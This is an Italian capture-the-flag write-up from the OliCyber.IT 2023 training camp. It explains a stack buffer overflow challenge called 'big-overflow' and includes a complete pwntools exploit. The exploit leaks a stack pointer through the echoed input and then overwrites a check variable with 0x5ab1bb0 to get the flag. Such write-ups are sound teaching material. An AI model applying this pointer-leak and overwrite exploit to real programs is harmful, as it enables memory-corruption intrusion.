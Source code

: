 # OliCyber.IT 2023 - Simulazione training camp 1

## [binary] big-overflow (5 risoluzioni)

La challenge chiede di inserire una stringa, e la scrive in un buffer sullo stack. Subito dopo stampa la stessa stringa, e ne chiede un'altra con cui la sovrascrive.

Il numero di byte che il programma legge è maggiore della lunghezza del buffer, quindi si può sovrascrivere la memoria che sullo stack si trovo dopo il buffer.

Il programma poi confronta una variabile sullo stack con 0x5ab1bb0, e se corrispondesse, stamperebbe la flag.

### Soluzione

Il buffer ha dimensione 32, e subito dopo sullo stack c'è un puntatore utilizzato, e dopo ancora la variabile di interesse.

Se il puntatore venisse sovrascritto con dati random, il programma andrebbe in crash qualora provasse a stampare la flag (il puntatore è il file di output dato in argomento a `fprintf`).

Dato che il programma fa un echo della stringa da noi inserita, possiamo arrivare in memoria fino all'inizio del puntatore per ottenerne il valore (edge case: se il puntatore contiene \x00 questo non funziona, ma succede raramante).

Una volta ottenuto il valore del puntatore si può riscrivere il buffer con: `[32 byte random] + [puntatore ottenuto] + [0x5ab1bb0]`.

### Exploit

```sh
#!/bin/python3

from pwn import *
import binascii

HOST = os.environ.get("HOST", "big-overflow.challs.olicyber.it")
PORT = int(os.environ.get("PORT", 34003))

io = remote(HOST, PORT)

io.recvuntil(b"Hello, what's your name?")
io.sendline(b"A"*31)
o = io.recvuntil(b"but")[:-3]
log.success(binascii.hexlify(o[41:][::-1]))

io.recvuntil(b"please: ")
io.sendline(b"A"*32 + (o[41:]) + b"\x00" * (7-len(o[42:])) + p32(0x5ab1bb0))
io.interactive()

```
